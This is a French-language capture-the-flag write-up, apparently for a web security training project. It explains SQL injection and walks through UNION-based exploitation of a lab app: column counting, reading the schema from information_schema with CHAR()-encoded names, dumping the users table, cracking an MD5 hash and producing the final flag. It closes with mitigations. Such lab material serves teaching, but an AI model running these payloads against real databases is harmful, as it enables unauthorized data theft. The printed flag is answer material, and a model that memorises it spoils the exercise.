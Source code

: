 # Nom de la faille
Injection SQL

## Définition
Les injections SQL sont une technique utilisée par des utilisateurs malveillants pour manipuler les requêtes SQL envoyées par une application web à sa base de données.

## Risques
Les injections SQL présentent plusieurs risques majeurs pour la sécurité des applications web :

- **Accès non autorisé aux données**
- **Modification des données**
- **Exécution de commandes**
- **Déni de service**

## Détection et Exploitation

### Détection
1. **Test des entrées utilisateur** :
   - Ajoutez des payloads spécifiques après le nom d'utilisateur pour voir si cela provoque des erreurs ou modifie le comportement de la page. Exemples de payloads : `'`, `"`, `#`, `;`, `)`.
   - Exemple : `1 OR 1=1` peut afficher une erreur et révéler la requête SQL dans l'URL.

2. **Analyse des erreurs** :
   - Observez les messages d'erreur retournés par l'application. Les erreurs SQL peuvent révéler des informations sur la structure de la base de données et les requêtes utilisées.

### Exploitation

1. **Trouver le nombre de champs** :
   - Utilisez `ORDER BY` pour déterminer le nombre de champs dans la requête. Par exemple, `1 ORDER BY 2` peut renvoyer une erreur si le champ n'existe pas.
   - Une fois le nombre de champs déterminé, utilisez `UNION SELECT` pour extraire des informations. Par exemple, `1 UNION SELECT 1, 2` pour vérifier le nombre de champs.

2. **Extraire des informations**

   - **Obtenir le nom de la base de données** :
     - Utilisez la requête `1 UNION SELECT 1, database()` pour obtenir le nom de la base de données actuelle.
     - Exemple de résultat : `Member_Sql_Injection`.

   - **Obtenir les noms des tables** :
     - Utilisez la requête `1 UNION SELECT 1, TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110)` pour obtenir les noms des tables dans la base de données.
     - Exemple de résultat : `users`.

   - **Obtenir les noms des colonnes** :
     - Utilisez la requête `1 UNION SELECT 1, COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = CHAR(77,101,109,98,101,114,95,83,113,108,95,73,110,106,101,99,116,105,111,110) AND TABLE_NAME = CHAR(117,115,101,114,115)` pour obtenir les noms des colonnes de la table `users`.
     - Exemple de résultat : `me, user_id, first_name, last_name, town, country, planet, Commentaire, countersign`.

   - **décryptage du flag** :
     - Utilisez la requête `1 UNION SELECT 1, Commentaire FROM users` pour obtenir un indice de décryptage.
       - Exemple de résultat : `Decrypt this password -> then lower all the char. Sh256 on it and it's good !`.
     - Utilisez la requête `1 UNION SELECT 1, countersign FROM users LIMIT 1 OFFSET 4` pour obtenir la contre-signature à décrypter.
       - Exemple de résultat : `5ff9d0165b4f92b14994e5c685cdce28`.
     - Décryptez le mot de passe en utilisant un outil de décryptage MD5, comme [dcode.fr](https://www.dcode.fr/md5-hash).
       - Exemple de résultat : `FortyTwo`.
     - Convertissez le mot de passe en minuscules : `fortytwo`.
     - Appliquez la fonction de hachage SHA-256 [encrypteur sha-256](https://10015.io/tools/sha256-encrypt-decrypt) au mot de passe en minuscules pour obtenir le résultat final.
       - Flag obtenu: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`.

## Comment l'éviter

1. **Utiliser des requêtes préparées**
2. **Valider et échapper les entrées utilisateur**
3. **Utiliser des frameworks sécurisés**

## Source
- https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
- https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/les-injections-sql-classiques/affichage-denregistrements/
- https://tcm-sec.com/avoid-or-1-equals-1-in-sql-injections/
- https://www.w3schools.com/sql/sql_injection.asp
